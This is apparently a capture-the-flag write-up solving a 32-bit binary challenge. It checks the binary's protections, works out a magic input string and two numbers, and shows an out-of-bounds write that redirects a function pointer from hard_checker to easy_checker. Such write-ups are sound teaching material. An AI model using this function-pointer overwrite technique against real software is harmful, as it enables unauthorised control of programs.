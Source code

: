 # Memo
1. check  
    ```zsh
    $ file vuln
    vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=8b6f3ccbb344c3ba91ef077e29c8ab9d6e2da011, for GNU/Linux 3.2.0, not stripped
    $
    $ checksec --file=./vuln --output=json | jq .
    {
      "./vuln": {
        "relro": "partial",
        "canary": "no",
        "nx": "yes",
        "pie": "no",
        "rpath": "no",
        "runpath": "no",
        "symbols": "yes",
        "fortify_source": "no",
        "fortified": "0",
        "fortify-able": "2"
      }
    }
    ```

2. ghidra

3. understand the logic  
- arg1  
  To break through, arg1 should be "}}}}}}}}}}W".
  ```c
  ...
  if (calculate_story_score(story, len) == 1337)
  ...
  ```
  ```
  } ... 125
  W ... 87
  "}" * 10 + "W" = 125 * 10 + 87 = 1337
  ```
  input : }}}}}}}}}}W
- arg2  
  This part can be used to change an address for calling a function.
  ```c
  ...
  fun[num1] += num2;
  ...
  ```
    - a function address called currently  
      ```
      0804c040 36  94  04  08    addr                 hard_checker ... 08049436
      ```
    - another function I want to call  
      ```
      0804c040 fc  92  04  08    addr                 easy_checker ... 080492fc
      ```
  A status where I change an address.  
  ![gdb.png](gdb.png)
  How to calc each input value.  
  ![address.png](address.png)
  input
  ```
  -16 -314
  ```

4. exploit
    ```zsh
    $ ./vuln
    Tell me a story and then I'll tell you if you're a 1337 >> }}}}}}}}}}W
    On a totally unrelated note, give me two numbers. Keep the first one less than 10.
    -16 -314
    Please create 'flag.txt' in this directory with your own debugging flag.
    ```
